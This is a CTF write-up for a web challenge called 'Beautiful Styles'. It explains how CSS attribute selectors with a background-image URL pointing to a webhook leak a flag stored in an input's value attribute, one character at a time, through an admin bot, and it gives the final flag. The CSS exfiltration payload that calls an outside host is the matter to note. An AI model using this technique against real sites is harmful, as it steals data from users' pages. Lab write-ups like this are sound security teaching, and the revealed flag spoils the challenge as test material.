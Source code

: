 # [WEB] Beautiful Styles
# Description
I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. 
Flag only consists of numbers and uppcase letters and the lower character f.

Author: Junhua

http://challs.nusgreyhats.org:3333

# Approach
Entering the website, we are greeted with the following landing page, consisting of a source code of some web content and also an input for CSS styling.

![image](https://github.com/0necloud/CTF-Writeups/assets/60743000/f67d1020-13d8-44fc-a88c-bca334fe0172)

After clicking on the submit button, we are redirected to another page `/submission/submission_id` showing us the preview of how our CSS input has changed the styling of the web content. 
There is also a button to submit our code for judging, which is likely visited by some kind of admin bot.

![image](https://github.com/0necloud/CTF-Writeups/assets/60743000/b66a0ce1-9f75-4456-804c-bf06fdb01a6a)

From the source code of the web content that they've shown us, we know that the flag is stored in an input tag, within the "value" attribute.
To exploit CSS injection, we provide the following CSS:

```
input[value^=grey\{] {
    background-image: url(https://webhook.site/XXX)
}
```

Get your own webhook URL [here](https://webhook.site/)

The `^=` selector will lead to the url being accessed if the value attribute starts with the specified string `grey{`, which we know it would be since it is part of the flag format. 
We just need to submit the CSS for judging to let the admin bot execute it. Since the admin bot (judge) is the one making request, its flag value will be the legitimate one which we are looking for, and not the fake flag which we see currently.
When the admin bot loads our CSS, our webhook is called.

From there on, we just need to perform what I call a `Inference-Based Blind Attack` (aka Brute-forcing) to add on additional characters to the value, recording down whenever our webhook receives a request. 
Eventually, it builds up to the following:

`input[value^=grey\{X]`

`input[value^=grey\{X5]`

`input[value^=grey\{X5S]`

`input[value^=grey\{X5S3]`

...

`input[value^=grey{X5S34RCH1fY0UC4NF1ND1T\}]`
![image](https://github.com/0necloud/CTF-Writeups/assets/60743000/ae171454-33a9-43e5-a40d-55d0c0912f25)

I have provided an automation script in this challenge folder. However, the script has to be run for each character of the flag, up until the last character of the flag `}` is present in the built `currentFlag` variable, which you will need to update each time you run the script. This is because I am not able to figure out a way to let the script know when our webhook gets called by the admin bot.

For keeping track of our flag which is being "built", we can append a `?c={Current Flag Progress}` query parameter to our webhook URL (included in the script). This way, we can monitor which character is next in the flag via the webhook page.

![image](https://github.com/0necloud/CTF-Writeups/assets/60743000/2aaf3447-f6e9-4f80-95db-1259aefab553)

Flag: `grey{X5S34RCH1fY0UC4NF1ND1T}`
